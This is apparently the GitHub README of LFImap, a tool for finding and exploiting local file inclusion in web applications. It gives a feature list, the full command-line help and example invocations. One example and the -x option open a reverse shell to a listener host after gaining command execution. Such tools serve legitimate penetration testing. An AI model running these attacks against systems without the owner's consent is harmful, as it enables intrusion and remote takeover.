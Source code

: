 # LFImap
## Local file inclusion discovery and exploitation tool

### Main features
- Attack with inclusion wrappers
    - Filter wrapper arbitrary file inclusion
    - Data wrapper remote command execution
    - Input wrapper remote command execution
    - Expect wrapper remote command execution
    - File wrapper arbitrary file inclusion
- Attack with path traversal
- Remote file inclusion
- Polyglot command injection check
- Heuristic scans
    - Polyglot XSS, CRLF checks
    - Open redirect check
    - Error-based info leak

- Testing modes
    - -U -> specify single URL to test
    - -F -> specify wordlist of URLs to test
    - -R -> specify raw http from a file to test

- Full control over the HTTP request
    - Specification of parameters to test (GET, FORM-line, Header, custom injection point)
    - Specification of custom HTTP headers 
    - Ability to test with arbitrary form-line (POST) data
    - Ability to test with arbitrary HTTP method
    - Ability to pivot requests through a web proxy
    - Ability to tune testing with timeout in between requests and maximum response time, before giving up on it
    - Support for payload manipulation via url and base64 encoding(s)
    - Support to output all requests and responses to a file
    - Quick mode (-q), where LFImap uses fewer carefully selected payloads
    - Second order (stored) vulnerability check support
    - Beta/Testing phase CSRF handling support

### Documentation
- [Installation](https://github.com/hansmach1ne/lfimap/wiki/Installation)

### -h, --help

```                  
 usage: lfimap.py [-U [url]] [-F [urlfile]] [-R [reqfile]] [-C <cookie>] [-D <data>] [-H <header>]
                 [-M <method>] [-P <proxy>] [--useragent <agent>] [--referer <referer>]
                 [--placeholder <name>] [--delay <milis>] [--max-timeout <seconds>]
                 [--http-ok <number>] [--csrf-param <param>] [--csrf-method <method>]
                 [--csrf-url <url>] [--csrf-data <data>] [--second-method <method>]
                 [--second-url <url>] [--second-data <data>] [--force-ssl] [--no-stop] [-f] [-i]
                 [-d] [-e] [-t] [-r] [-c] [-file] [-heur] [-a] [-n <U|B>] [-q] [-x]
                 [--lhost <lhost>] [--lport <lport>] [--callback <hostname>] [-wT <path>]
                 [--use-long] [--log <file>] [-v] [-h]

LFImap, Local File Inclusion discovery and exploitation tool

TARGET OPTIONS:
  -U [url]                  Single url to test
  -F [urlfile]              Load multiple urls to test from a file
  -R [reqfile]              Load single request to test from a file

REQUEST OPTIONS:
  -C <cookie>               HTTP session Cookie header
  -D <data>                 HTTP request FORM-data
  -H <header>               Additional HTTP header(s)
  -M <method>               Request method to use for testing
  -P <proxy>                Use a proxy to connect to the target endpoint
  --useragent <agent>       HTTP user-agent header value
  --referer <referer>       HTTP referer header value
  --placeholder <name>      Custom testing placeholder name (default is "PWN")
  --delay <milis>           Delay in miliseconds after each request
  --max-timeout <seconds>   Number of seconds after giving up on a response (default 5)
  --http-ok <number>        Http response code(s) to treat as valid
  --csrf-param <param>      Parameter used to hold anti-CSRF token
  --csrf-method <method>    HTTP method to use during anti-CSRF token page visit
  --csrf-url <url>          URL address to visit for extraction of anti-CSRF token
  --csrf-data <data>        POST data to send during anti-CSRF token page visit
  --second-method <method>  Specify method for second order request
  --second-url <url>        Url for second order request
  --second-data <data>      FORM-line data for second-order request
  --force-ssl               Force usage of HTTPS/SSL if otherwise not specified
  --no-stop                 Don't stop using the same testing technique upon findings

ATTACK TECHNIQUE:
  -f, --filter              Attack using filter wrapper
  -i, --input               Attack using input wrapper
  -d, --data                Attack using data wrapper
  -e, --expect              Attack using expect wrapper
  -t, --trunc               Attack using path traversal with wordlist (default "short.txt")
  -r, --rfi                 Attack using remote file inclusion
  -c, --cmd                 Attack using command injection
  -file, --file             Attack using file wrapper
  -heur, --heuristics       Test for miscellaneous issues using heuristics
  -a, --all                 Use all supported attack methods

PAYLOAD OPTIONS:
  -n <U|B>                  Specify payload encoding(s). "U" for URL, "B" for base64
  -q, --quick               Perform quick testing with fewer payloads
  -x, --exploit             Exploit and send reverse shell if RCE is available
  --lhost <lhost>           Local ip address for reverse connection
  --lport <lport>           Local port number for reverse connection
  --callback <hostname>     Callback location for rfi and cmd detection

WORDLIST OPTIONS:
  -wT <path>                Path to wordlist for path traversal modality
  --use-long                Use "src/wordlists/long.txt" wordlist for path traversal modality

OUTPUT OPTIONS:
  --log <file>              Output all requests and responses to specified file

OTHER:
  -v, --verbose             Print more detailed output when performing attacks
  -h, --help                Print this help message

```

### Examples 

#### 1) All attacks with '-a' (filter, input, data, expect and file wrappers, remote file inclusion, command injection, XSS, error disclosure).
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a`  

![Lfimap-1](https://user-images.githubusercontent.com/57464251/186299395-c6a91666-0e95-484e-8537-6f248d257f5b.png)


#### 2) Reverse shell command execution attack with '-x'
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a --lhost IP --lport PORT -x`  

![Lfimap-2](https://user-images.githubusercontent.com/57464251/186299661-7d6b480b-953f-4a7e-a806-5f39435f07fd.png)


#### 3) Post argument testing with '-D'

`python3 lfimap.py -U "http://IP/index.php" -D "page=PWN" -a`

![Lfimap-3](https://user-images.githubusercontent.com/57464251/186302047-0a2e9ab9-e4f0-43bb-b245-0235b6950ea0.png)


If you notice any issues with the software, please open up an issue. I will gladly take a look at it and try to resolve it. <br>
Pull requests are welcome.

[!] Disclaimer: Lfimap usage for attacking web applications without consent of the application owner is illegal. Developers assume no liability and are 
not responsible for any misuse and damage caused by using this program.
